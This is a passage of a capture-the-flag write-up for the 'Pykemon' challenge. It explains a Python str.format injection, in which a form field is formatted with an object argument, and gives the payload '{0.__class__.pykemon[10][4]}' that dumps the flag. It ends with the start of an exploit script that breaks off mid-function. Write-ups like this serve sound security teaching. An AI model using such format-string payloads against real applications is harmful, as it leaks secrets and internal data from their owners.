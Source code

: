 See the vulnerability? No?

Here it is if you didn't see it: `new_name.format(p)`, where `new_name` is a form parameter and p is the Pykemon object.

After a quick look to the python documentation for `string.format()` we found out you can get attributes of arguments in a format string.

Using that we built the following format string: `{0.__class__.pykemon[10][4]}`, which dumps the flag.

`PCTF{N0t_4_sh1ny_M4g1k4rp}`

## Retrospective

Decoding the session was actually not needed to solve this challenge because the Pykemon ids are also in the HTML.

I also just found out that the if we already go to the trouble of decoding the session, the session would contain the flag anyway if a FLAG Pykemon was in the room.

## Scripts

Original exploit script

```python3
import requests
import base64
import zlib
import json
import re

class D:
    pass

d = D()

d.s = requests.session()
d.url = "http://pykemon.chal.pwning.xxx/"

def get_cookie_object():
    for c in d.s.cookies:
        if c.name == "session":
            return c

def rename(name, new_name):
    return d.s.post(d.url + "rename/", data={
        'name': name,
        'new_name': new_name
    }).text

def catch(name):
    return d.s.post(d.url + "catch/", data={
        'name': name
    }).text

def clear_session():
    d.s = requests.session()

def get_room():
    global d
    return d.s.get(d.url)

def decode_session():
    global d
    cookie = get_cookie_object()
```